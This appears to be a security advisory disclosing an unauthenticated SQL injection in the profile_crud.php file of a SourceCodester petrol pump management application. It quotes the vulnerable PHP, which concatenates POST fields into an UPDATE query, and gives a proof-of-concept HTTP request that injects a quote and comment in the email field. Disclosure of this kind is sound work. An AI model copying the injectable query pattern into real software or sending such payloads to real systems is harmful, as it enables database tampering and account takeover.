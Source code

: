 # SOURCECODESTER / Petrol pump management software - profile_crud.php Unauthenticated SQL Injection

## **Credits**
> Joshua Lictan (https://github.com/skid-nochizplz/skid-nochizplz)<br/>

## Vendor Homepage:
> https://www.sourcecodester.com/php/17180/petrol-pump-management-software-free-download.html

## Affected Component
> /admin/app/profile_crud.php

## Code
```php
	$stmt = $conn->prepare("UPDATE `login` SET `username`='" . $_POST['username'] . "',`email`='" . $_POST['email'] . "',`mobileno`='" . $_POST['mobileno'] . "',`image`='" . $img . "' WHERE id='" . $_SESSION['id'] . "' ");

	$stmt->execute();


	header("location:../dashboard.php");
```

## Proof of Concept
**HTTP Request Example**
``` http request
POST /admin/app/profile_crud.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 59

update=&username=NoChizPlz&email=NoChizPlz@NoChizPlz.com'+#
```

## Screenshot
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/c9f37617-947b-472e-bfd7-2113d054dde5)
![image](https://github.com/skid-nochizplz/skid-nochizplz/assets/160950031/044c9e7c-5051-4596-9101-48770914545a)

